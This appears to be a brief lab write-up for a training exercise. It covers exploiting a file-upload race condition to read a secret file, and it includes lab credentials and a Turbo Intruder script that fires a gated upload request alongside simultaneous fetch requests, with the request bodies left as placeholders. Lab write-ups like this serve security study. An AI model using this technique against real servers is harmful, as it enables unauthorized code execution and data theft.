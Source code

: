 
Target Goal - Exploit file upload vulnerability to exfiltrate the contents of the /home/carlos/secret

Creds - wiener:peter

Analysis:

The race condition is for very short time!
We try to call the file before validation on the server is done.
Need Turbo Intruder in burp!


def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=10,
                           requestsPerConnection=100,
                           pipeline=False
                           )

    request1 = '''
<add post request here>
'''

    
    request2 = '''
<add get request here>
\r\n
'''

    # the 'gate' argument blocks the final byte of each request until openGate is invoked
    engine.queue(request1, gate='race1')
    for i in range(9):
        engine.queue(request2, gate='race1')

    # wait until every 'race1' tagged request is ready
    # then send the final byte of each request
    # (this method is non-blocking, just like queue)
    engine.openGate('race1')

    engine.complete(timeout=60)


def handleResponse(req, interesting):
    table.add(req)


